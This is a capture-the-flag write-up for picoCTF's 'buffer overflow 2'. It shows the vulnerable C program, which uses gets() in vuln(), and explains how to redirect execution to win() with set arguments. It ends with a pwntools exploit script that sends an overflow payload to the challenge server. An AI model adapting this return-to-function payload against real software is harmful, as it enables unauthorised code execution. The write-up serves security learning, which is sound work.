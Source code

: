 **picoCTF - buffer overflow 2**

### Binary protection


![](p/1.png)


This binary is better protected, then the previous one, now we have NX bit enabled (Non-executable stack), which means that we can't execute our own shellcode, however it doesn't prevent buffer overflow itself.

### Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Our goal is to leverage buffer overflow vulnerability in `vuln()` function and jump to `win()`, however `win()` takes two arguments, which are stored on the stack, and then performs some type of validation (checks if provided args are 0xCAFEF00D and 0xF00DF00D).

So, we need to:

1. Get the address value of `win()`
2. Overflow the buffer and provide `win` address with appropriate args.

### Exploit

```python
from pwn import *

process = remote("saturn.picoctf.net","50040")
process.recvuntil(b"Please enter your string:")
log.info("Sending payload")


payload = b"A"*112 + p32(0x08049296) + b"BBBB" + p32(0xCAFEF00D) + p32(0xF00DF00D)
process.sendline(payload)
process.recv()
process.interactive()
```


![](p/2.png)


